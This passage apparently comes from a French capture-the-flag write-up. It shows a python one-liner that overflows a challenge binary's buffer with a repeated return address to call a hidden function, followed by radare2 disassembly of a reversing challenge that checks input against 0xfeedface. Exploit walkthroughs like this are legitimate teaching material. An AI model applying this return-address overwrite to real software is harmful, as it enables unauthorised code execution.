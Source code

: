 Il ne reste qu'à trouver le bon alignement :  

```plain
$ ./overflow A`python -c "print '\xad\x84\x04\x08'*10"`
Hello A����������!
Erreur de segmentation
$ ./overflow AA`python -c "print '\xad\x84\x04\x08'*10"`
Hello AA����������!
Awesome!
Awesome!
Awesome!
Awesome!
Erreur de segmentation
```

### RapidReversing

```plain
$ ./rapidreversing 
Give me one arg!
$ ./rapidreversing abcd
Nope.
```

Le code assembleur qui nous intéresse (ici désassemblé avec *radare2*) dans le main() est le suivant :  

```asm
 `-> 0x08048372    8b450c       mov eax, dword [ebp + 0xc] ; [:4]=0
     0x08048375    c74424080a0. mov dword [esp + 8], 0xa ; [:4]=0
     0x0804837d    c7442404000. mov dword [esp + 4], 0 ; [:4]=0x10100
     0x08048385    8b4004       mov eax, dword [eax + 4] ; [:4]=0x10100
     0x08048388    890424       mov dword [esp], eax
     0x0804838b    e8b0ffffff   call sym.imp.strtol
        sym.imp.strtol()
     0x08048390    8944241c     mov dword [esp + 0x1c], eax ; [:4]=52
     0x08048394    8b54241c     mov edx, dword [esp + 0x1c] ; [:4]=52
     0x08048398    8b44241c     mov eax, dword [esp + 0x1c] ; [:4]=52
     0x0804839c    c1e20b       shl edx, 0xb
     0x0804839f    c1e815       shr eax, 0x15
     0x080483a2    09d0         or eax, edx
     0x080483a4    8944241c     mov dword [esp + 0x1c], eax ; [:4]=52
     0x080483a8    8b44241c     mov eax, dword [esp + 0x1c] ; [:4]=52
     0x080483ac    3dcefaedfe   cmp eax, 0xfeedface
,==< 0x080483b1    7410         je 0x80483c3
|    0x080483b3    c704249a850. mov dword [esp], str.Nope.
|    0x080483ba    e851ffffff   call sym.imp.puts ; (fcn.0804830c)
|       fcn.0804830c() ; sym.imp.puts
|    0x080483bf    31c0         xor eax, eax
|    0x080483c1    c9           leave
|    0x080483c2    c3           ret
|    ; JMP XREF from 0x080483b1 (unk)
`--> 0x080483c3    c7042480850. mov dword [esp], str.Awesome_
     0x080483ca    e841ffffff   call sym.imp.puts ; (fcn.0804830c)
```
